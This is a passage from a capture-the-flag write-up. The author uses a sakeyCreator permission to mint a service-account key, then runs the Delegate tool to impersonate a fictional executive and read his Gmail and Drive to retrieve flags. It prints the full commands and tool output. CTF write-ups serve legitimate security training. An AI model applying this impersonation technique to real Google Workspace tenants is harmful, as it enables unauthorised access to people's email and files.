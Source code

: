 I used the `sakeyCreator` permission on the `vm-serviceaccount` to generate a service account credential that I could save on my machine and use with Delegate. From there, I just gave it a shot to see if Delegate would work right out of the box. I had to make some modifications since Delegate had a bug where it was sourcing functions from the wrong internal Python modules and not dumping complete HTML sources. My changes to Delegate are available here: https://github.com/rbreslow/Delegate/commits/rb/hackfest/.

Flag 11 is found in the body of one of Tyrell's emails (full emails in `tyrell_emails.txt`):

```console
$ python delegate.py -k ~/hackfest/learn-the-alphabet/vm-serviceaccount.json -i tyrell.wellick@mysuperaisaas.com -m gmail -a read

██████╗ ███████╗██╗     ███████╗ ██████╗  █████╗ ████████╗███████╗
██╔══██╗██╔════╝██║     ██╔════╝██╔════╝ ██╔══██╗╚══██╔══╝██╔════╝
██║  ██║█████╗  ██║     █████╗  ██║  ███╗███████║   ██║   █████╗  
██║  ██║██╔══╝  ██║     ██╔══╝  ██║   ██║██╔══██║   ██║   ██╔══╝    
██████╔╝███████╗███████╗███████╗╚██████╔╝██║  ██║   ██║   ███████╗  v3.1.0
╚═════╝ ╚══════╝╚══════╝╚══════╝ ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝  by @lutzenfried

[*] Authentication: Using Service Account Key
[*] Impersonating: tyrell.wellick@mysuperaisaas.com
[*] Module: gmail
[*] Action: read
[...]
```

```html
<div>Thanks for joining our executive meeting on short notice, I think we have a path for great success with
    MySuperAISaaS but please make sure to keep everything mentioned during the meeting confidential and sensitive.
</div>
<div><br></div>
<div>Flag-11 </div>
<div><br></div>
<div>HF-354e6d797d4ad4000ff7bf70fceaba91</div>
<div><br></div>
<div>Have a  great evening,</div>
<div><br></div>
```

🚩

## Flag 12

Contained within a Microsoft Word document in Tyrell's Google Drive:

```console
[MacBook-Pro Delegate] (main *%%)$ python delegate.py -k ~/hackfest/learn-the-alphabet/vm-serviceaccount.json -i tyrell.wellick@mysuperaisaas.com -m gmail -a listFolders  

██████╗ ███████╗██╗     ███████╗ ██████╗  █████╗ ████████╗███████╗
██╔══██╗██╔════╝██║     ██╔════╝██╔════╝ ██╔══██╗╚══██╔══╝██╔════╝
██║  ██║█████╗  ██║     █████╗  ██║  ███╗███████║   ██║   █████╗  
██║  ██║██╔══╝  ██║     ██╔══╝  ██║   ██║██╔══██║   ██║   ██╔══╝    
██████╔╝███████╗███████╗███████╗╚██████╔╝██║  ██║   ██║   ███████╗  v3.1.0
╚═════╝ ╚══════╝╚══════╝╚══════╝ ╚═════╝ ╚═╝  ╚═╝   ╚═╝   ╚══════╝  by @lutzenfried

[*] Authentication: Using Service Account Key
[*] Impersonating: tyrell.wellick@mysuperaisaas.com
[*] Module: gmail
[*] Action: listFolders

======================= Dossiers identifiés dans Google Drive =======================

Meet Recordings (1EXXW8OcjkYEMHUC-JXsNushJfzouTG48) - 1 Fichier(s):
```